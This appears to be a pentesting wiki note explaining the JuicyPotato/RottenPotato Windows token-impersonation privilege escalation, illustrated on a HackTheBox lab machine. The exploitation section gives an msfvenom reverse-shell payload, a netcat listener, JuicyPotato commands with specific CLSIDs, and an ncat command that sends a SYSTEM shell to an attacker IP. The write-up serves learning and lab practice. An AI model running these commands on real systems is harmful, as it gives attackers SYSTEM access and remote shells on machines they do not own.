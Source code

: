 # JuicyPotato/RottenPotato

## Short **Summary**

If an user account you control has the SEImpersonate token (which most service accounts have), then you can get root.

This exploit was effectively **patched** in Win10 1809 and Windows Server 2019.

{% embed url="https://github.com/ohpe/juicy-potato" %}

## Explanation

### Requirements

If your user has **SeImpersonate** or **SeAssignPrimaryToken** privileges then you are effectively SYSTEM. Normal users don’t usually have these, but service-level users might. You can check this with `whoami /all` under "Privileges".

You also need to be able to call a DCOM service, which:

1. implements the IMarshal interface
2. runs as an elevated user (SYSTEM, Administrator, ...)

Normally this is port 6666, but there are other such services, in case that one is blocked.

### Tokens

Every process has an access token, which specifies, what kinds of actions you can take. With the right privileges, Windows allows you to impersonate tokens for identification or for doing actions on another user’s behalf.

There are basically two kinds of impersonation tokens:

* Delegate/impersonate - these allow you to perform actions
* Identify/anonymous - for identification, don’t allow you to perform actions.&#x20;

If you can get a delegate/impersonate impersonated access token with SYSTEM rights, then you can perform actions as SYSTEM.

### How It Works

How RottenPotato works at a high level:

1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

## Exploitation

First of all, download the [juicypotato](https://github.com/ohpe/juicy-potato/releases) executable. If the official release isn't working, try an [x86 version](https://github.com/ivanitlearning/Juicy-Potato-x86).

You're going to need something for JuicyPotato to execute when it finishes successfully. For example, you could generate a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST="10.10.14.20" LPORT=8002 -f exe > reverse.exe
```

Listen for the reverse shell on your machine:&#x20;

```
nc -lnvp 8002
```

On the victim machine, execute juicypotato (in this case the x86 variant):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "CLSID_HERE" -p C:\path\to\reverse.exe -t *
```

You're probably going to need to test multiple CLSIDs before you get a working one. [Here is a list of CLSIDs to try.](http://ohpe.it/juicy-potato/CLSID/)

For example, in the hackthebox "devel" machine, this was the successful exploit (my reverse.exe was in the inetpub/wwwroot directory):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{4B635ECB-0887-4015-8CA6-D621362F98D1}" -p C:\inetpub\wwwroot\reverse.exe -t *
```

Alternatively, you can use it with a static ncat.exe file:&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\ncat.exe -e cmd.exe 10.10.14.17 8002" -t *
```

### External Links

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %}
Technical explanation of RottenPotato, which JuicyPotato is based on
{% endembed %}

{% embed url="https://www.youtube.com/watch?v=QRpfvmMbDMg" %}
Blackhat technical talk about tokens
{% endembed %}





